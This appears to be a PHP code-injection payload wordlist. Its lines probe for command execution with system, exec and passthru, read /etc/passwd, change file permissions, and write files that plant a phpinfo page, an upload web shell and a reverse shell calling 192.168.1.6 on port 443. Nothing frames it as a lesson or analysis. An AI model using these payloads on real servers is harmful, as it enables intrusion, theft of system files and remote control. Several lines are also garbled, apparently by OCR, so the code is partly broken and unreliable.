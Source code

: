 ;id
'id'
;id;
&&id
echo 'id'
system('id')
;system('id')
system("id")
SYSTEM("id")
system(%27id%27)
system('id');phpinfo()
SYSTEM('id');PHPINFO()
;system('/usr/bin/id')
system('cat /etc/passwd');
;system('cat /etc/passwd')
shell exec("id")
SHELL EXEC("id")
exec("id")
EXEC("id")
exec("ping -c 4 192.168.1.6")
passthru("id")
PASSTHRU("id")
phpinfo()
phpinfo();id
PHPINFO()
PHPINFO();id
phpinfo();system('cat /etc/passwd')
phpinfo();system('id')
PHPINFO();SYSTEM('id')
print_r($_POST);system('id')
PRINT_R($_POST);SYSTEM('id')
pcntl_exec("/usr/bin/uptime")
readfile?"/etc/passwd")
file get contents ("/etc/passwd")
$file = fopen ("testl.txt", "w"); echo fwrite($file, "Hello World. Testing!"); fclose($file)
$file = fopen ("phpinfo-1.php", "W"); echo fwrite ($file, "<?php phpinfo(); ?>"); fclose ($file)
$file = fopen("pshell.php", "w"); echo fwrite($file, "php -r '$sock=fsockopen ('192.168.1.6' ,443) ;' /bin/sh -i <83 >83 2-83' ;"); fclose($file)
$file = fopen ("upload2.php", "w"); echo fwrite($file, '<html><form action="upload2.php" method="post" enctype="multipart/form-data">Select image to upload; <input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></html><?php if( isset ($_POST["submit"])){ $file_name = $_FILES["fileToUpload"] ["name"]; $file_tmp_name = $FILES["fIleToUpload"("tmpname"]; if (move uploaded_file($file_tmp_ name, " ./" . $file_name)) { echo "ok"; } } ?>'); fclose($file)
passthru('id')
PASSTHRU('id')
;SYSTEM('id')
readfile("/etc/passwd");
readfile("index.html");
READFILE("index.html")
READFILE("/etc/passwd")
echo%20file_exists("index.html");
echo%20file_exists("/etc/passwd");
ECHO%20FILE_EXISTS("index.html");
ECHO%20FILE_EXISTS("/etc/passwd");
chmod("index.html",0777);
CHMOD("index.html",0777);
echo%20copy("/etc/passwd","/tmp/passwd");
echo%20file_exists("/tmp/passwd");
echo%20file_get_contents("/etc/passwd");
ECHO%20FILE_GET_CONTENTS("/etc/passwd");
echo%20file_put_contents("index.html","Hello%20World.%20Testing!");
ECHO%20FILE_PUT_CONTENTS("index.html","HELLO%20WORLD.%20TESTING!");
echo%20fileperms("index.html");
echo%20fileperms("/etc/passwd");
ECHO%20FILEPERMS("index.html");
ECHO%20FILEPERMS("/etc/passwd");
print_r(glob("*.txt"));
print_r(glob("*.html"));
print_r(glob("*.config"));
